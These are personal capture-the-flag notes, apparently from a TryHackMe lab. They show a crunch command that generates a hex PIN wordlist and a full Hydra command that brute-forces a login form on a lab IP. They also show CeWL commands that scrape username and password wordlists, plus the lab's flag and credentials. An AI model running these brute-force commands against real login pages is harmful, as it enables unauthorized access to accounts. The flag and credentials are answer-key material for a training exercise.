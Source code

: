 Day 3: Hydra
first we use [[Crunch]] to generate a wordlist of possible pins by using

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`

The command above specifies the following:

- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

Using the List

analysing `http://10.10.145.239:8000/pin.php`
we can see that the pin is sent as a post ro login.php with the name pin

we can brute force thiis using  [[Hydra]] 

`hydra -l '' -P 3digits.txt -f -v 10.10.145.239 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`

after a few mins we found that the password **6F5** is valid
using that code and clicking **unlock door** gives us the flag
	THM{pin-code-brute-force}

Day 4: Baby, it's CeWLd outside
we can use [[CeWL]] to generate a cutom brute force wordlist
`cewl -d 2 -m 5 -w passwords.txt http://10.10.142.23 --with-numbers`
now that we have a password list we can generate a username list with the team.php page
```cewl -d 0 -m 5 -w usernames.txt http://10.10.142.23/team.php --lowercase```

usinf [[wfuzz]] we find the credentals
u - isaias
p - Happiness



